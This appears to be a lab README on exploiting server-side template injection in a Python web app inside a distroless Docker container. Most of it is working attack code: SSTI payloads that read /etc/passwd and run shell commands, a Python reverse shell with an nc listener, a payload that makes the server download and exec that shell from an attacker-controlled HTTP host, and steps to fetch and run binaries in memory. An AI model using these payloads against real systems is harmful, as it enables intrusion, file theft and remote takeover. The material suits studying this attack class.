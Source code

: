 ### Build distroless
```bash
docker build . -t py-ssti-dless
docker start -p 8080:8080 py-ssti-dless
```

### Raw image (no distroless)
```bash
docker run -it python:3.10-slim sh
```

### Read File
`http://127.0.0.1:1337/?name={{(1).__class__.__base__.__subclasses__()[216]()._module.__builtins__["open"]("/etc/passwd").read()}}`

### RCE
`http://127.0.0.1:1337/?name={{(1).__class__.__base__.__subclasses__()[216]()._module.__builtins__["__import__"]("os").popen("command -v python").read()}}`

### Get python rev shell

Create a file called `python_rev.py` with your **IP address** and **port**:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("172.17.0.3",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/usr/bin/python","-i"])
```

Start a listener on your machine:

```bash
nc -lvnp 4444
```

Now, lets make the server **exec** the python file **downloading it via http**:
```python
http://127.0.0.1:1337/?name={{(1).__class__.__base__.__subclasses__()[216]()._module.__builtins__["exec"]((1).__class__.__base__.__subclasses__()[216]()._module.__builtins__["__import__"]("urllib", fromlist=["request"]).request.urlopen("http://172.17.0.3:8989/tmp/python_rev.py").read())}}
```

**You should have received the python shell!**


### Execute arbitrary binaries

Generate the payload to load in memory with `fee /bin/ls > ls.py`. **AND UPDATE** the payload with the following code at the beggining **or you will lose your shell**:

```python
# imports ...
pid = os.fork()
if pid == 0: #pid==0 represents the child process
# Rest of the payload inside this if
```

**If you want to execute the binary with more params, add them in the last line of the payload**

In your python reverse shell run this to **download and execute the binary**:

```python
from urllib import request
ls = request.urlopen("http://172.17.0.3:8989/tmp/ls.py").read()
exec(ls)
```
